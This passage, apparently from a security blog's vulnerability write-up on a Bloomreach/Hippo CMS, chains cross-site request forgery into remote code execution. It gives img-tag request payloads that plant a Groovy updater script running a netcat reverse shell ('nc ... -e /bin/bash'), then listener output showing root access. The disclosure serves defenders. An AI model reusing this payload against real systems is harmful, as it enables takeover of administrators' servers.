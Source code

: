 # Combination
These findings can be combined by placing the following contents inside an HTML page or using one of the cross-site scripting vulnerabilities, it is possible to get remote code execution if triggered by an administrator.

{% highlight html %}
<img src="http://localhost:8080/cms/?1-1.IBehaviorListener.0-root-tabs-tabs~container-tabs-6-container-link&iframe">
<img src="http://localhost:8080/cms/?1-1.IBehaviorListener.0-root-tabs-panel~container-cards-6-panel-systemPanel-new~form-new~button&iframe">
<img src="http://localhost:8080/cms/?1-1.IBehaviorListener.0-root-tabs-panel~container-cards-6-panel-systemPanel-updater~editor-updater~form-execute~button&iframe&radios%3Aname%3Ainput=new-2&radios%3Adescription%3Atextarea=&radios=radio10&radios%3Apath%3Ainput=%2F&radios%3Aparameters%3Atextarea=&radios%3Abatch-size%3Ainput=10&radios%3Athrottle%3Ainput=1000&radios%3Alog-level%3Achoice=DEBUG&script-editor=package+org.hippoecm.frontend.plugins.cms.admin.updater%0D%0A%0D%0Aimport+org.onehippo.repository.update.BaseNodeUpdateVisitor%0D%0Aimport+javax.jcr.Node%0D%0Aimport+javax.jcr.RepositoryException%0D%0Aimport+javax.jcr.Session%0D%0A%0D%0A%40groovy.transform.ASTTest(value%3D%7Bassert+java.lang.Runtime.getRuntime().exec(%22nc+172.18.0.1+4444+-e+%2Fbin%2Fbash%22)%7D)%0D%0A%0D%0Aclass+UpdaterTemplate+extends+BaseNodeUpdateVisitor+%7B%0D%0A%0D%0A++boolean+logSkippedNodePaths()+%7B%0D%0A++++return+false+%2F%2F+don\'t+log+skipped+node+paths%0D%0A++%7D%0D%0A%0D%0A++boolean+skipCheckoutNodes()+%7B%0D%0A++++return+false+%2F%2F+return+true+for+readonly+visitors+and%2For+updates+unrelated+to+versioned+content%0D%0A++%7D%0D%0A%0D%0A++Node+firstNode(final+Session+session)+throws+RepositoryException+%7B%0D%0A++++return+null+%2F%2F+implement+when+using+custom+node+selection%2Fnavigation%0D%0A++%7D%0D%0A%0D%0A++Node+nextNode()+throws+RepositoryException+%7B%0D%0A++++return+null+%2F%2F+implement+when+using+custom+node+selection%2Fnavigation%0D%0A++%7D%0D%0A%0D%0A++boolean+doUpdate(Node+node)+%7B%0D%0A++++log.debug+%22Updating+node+%24%7Bnode.path%7D%22%0D%0A++++return+false%0D%0A++%7D%0D%0A%0D%0A++boolean+undoUpdate(Node+node)+%7B%0D%0A++++throw+new+UnsupportedOperationException(\'Updater+does+not+implement+undoUpdate+method\')%0D%0A++%7D%0D%0A%0D%0A%7D%0D%0A&execute-button=1">
{% endhighlight %}

The screenshot below shows the HTML page with the different origin and the broken images again.

![csrf-rce image](https://raw.githubusercontent.com/tvrbk/tvrbk.github.io/main/_posts/brXM-16.png)

The attacker's listener will receive the connection and can now look around your systems and network.

{% highlight sh %}
user@ubuntu:~$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 172.19.0.3 34401
hostname
53edca38e8e1
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
{% endhighlight %}
